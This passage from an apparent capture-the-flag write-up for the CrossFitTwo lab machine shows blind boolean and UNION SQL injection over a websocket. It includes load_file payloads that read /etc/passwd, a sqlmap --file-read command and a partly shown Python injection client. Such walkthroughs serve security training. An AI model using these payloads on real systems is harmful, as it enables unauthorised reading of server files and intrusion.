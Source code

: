 ![](/assets/img/posts/crossFitTwo/employe-creds.png)

**These password hashes are not crackable**

Check if database user have any privileges
```bash
database management system users privileges:
[*] %crossfit_user% [1]:
    privilege: FILE
```

* From mysql docs "A user who has the **FILE privilege** can read any file on the server host that is either world-readable or readable by the MySQL server."

* sql payload for boolean based blind injection for checking if file exist: **`1 AND !isnull(load_file(0x<filepath_in_hexadecimal>))`**

Check `/etc/passwd` file
```bash
❯ python websocket.py -p '1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))'
< {"message": "available", "params": "1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))", "token": "97c47b19d8c2fc7f2ea9cfe79078fb2279478e15c4fb2ede301b8ad4c3d08e46"}
> {"status":"200","message":"Good news! This membership plan is available.","token":"645e596d99d2d03b82588868b437831c89f13bda4c168b318ed59b6d5f00a7b6","debug":"[id: 1, name: 1-month]"}
```

Read file with sqlmap
```bash
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --file-read="/etc/passwd"
```

### UNION sql injection to Read file

* Found injection with payload: `3 UNION SELECT 1,2`

This is more faster than blind injection because values are reflated in the response.

**Updated Websocket client python script**

```py
import argparse
import sys
import websockets
import asyncio
import json

url = "ws://gym.crossfit.htb/ws/"
parser = argparse.ArgumentParser()
parser.add_argument('-m', '--message', help='Send command')
parser.add_argument('-p', '--params', help='"params" parameter value')
parser.add_argument('-u', '--union', action='store_true', help='Enable UNION injection')
parser.add_argument('-f', '--file', action='store_true', help='Enable file reading')
args = parser.parse_args()


async def lets_talk():
    async with websockets.connect(url) as ws:
        msg = await ws.recv()
```